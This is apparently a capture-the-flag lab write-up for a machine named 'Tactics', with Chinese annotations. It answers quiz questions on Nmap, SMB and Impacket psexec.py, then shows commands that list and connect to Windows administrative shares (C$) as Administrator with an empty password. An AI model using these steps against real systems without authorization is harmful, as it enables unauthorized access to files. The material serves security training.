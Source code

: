 <center>Tactics</center>



[toc]







## Tactics

> Tactics







### 1. task

1. Which Nmap switch can we use to enumerate machines when our ping ICMP packets are blocked by the Windows firewall?

```shell
-Pn
```

2. What does the 3-letter acronym SMB stand for?

```shell
Server Message Block
```

3. What port does SMB use to operate at?

```shell
445
```

4. What command line argument do you give to `smbclient` to list available shares?

```shell
-L
```

5. What character at the end of a share name indicates it's an administrative share?

```shell
$
```

6. Which Administrative share is accessible on the box that allows users to view the whole file system?

```shell
C$
```

7. What command can we use to download the files we find on the SMB Share?

```shell
get
```

8. Which tool that is part of the Impacket collection can be used to get an interactive shell on the system?

```shell
psexec.py
```







### 3. flag

> 获取flag

```shell
nmap -sC -Pn IP
```

![image-20241202162102651](./assets/image-20241202162102651.png)

> 使用**`空密码列出Administrator账号下的共享`**

```shell
smbclient -L 10.129.251.55 -U Administrator
```

![image-20241202162201336](./assets/image-20241202162201336.png)

```shell
ADMIN$ --- 管理共享是由 Windows NT系列操作系统创建的隐藏网络共享，它允许系统管理员远程访问网络连接系统上的每个磁盘卷。这些共享不能被永久删除，但可以被禁用。
C$ --- C:\磁盘卷的管理共享。这是操作系统托管的地方。
IPC$ --- 进程间通信共享。通过命名管道用于进程间通信，不属于文件系统的一部分。
```

> 连接C$共享

```shell
smbclient \\\\IP\\C$ -U Administrator
```

![image-20241202162421731](./assets/image-20241202162421731.png)






